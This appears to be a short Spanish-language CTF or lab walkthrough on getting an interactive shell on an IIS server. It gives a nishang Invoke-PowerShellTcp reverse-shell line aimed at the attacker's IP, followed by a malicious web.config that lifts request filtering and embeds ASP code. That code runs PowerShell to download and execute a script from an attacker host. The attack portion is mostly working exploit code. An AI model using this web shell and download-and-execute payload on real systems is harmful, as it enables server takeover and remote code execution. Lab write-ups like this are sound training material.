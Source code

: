 Vemos que se puede ejecutar comandos a novel de sistema.

![7e647b9beee819a8a5dfa13e68c7d6d5.png](7e647b9beee819a8a5dfa13e68c7d6d5.png)

Para obtenre una consola interactiva, usaremos nishang.

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Una vez descargado, vamos a insertar lo siguiente al final

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <Ip atacante> -Port 443
```

* Archivo web.config

```bash
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd.exe /c powershell -c iex(new-object net.webclient).downloadstring('http://ip-atacante/nishangPStcp.ps1')")
output = cmd.StdOut.Readall()
Response.write(output)
%>
```

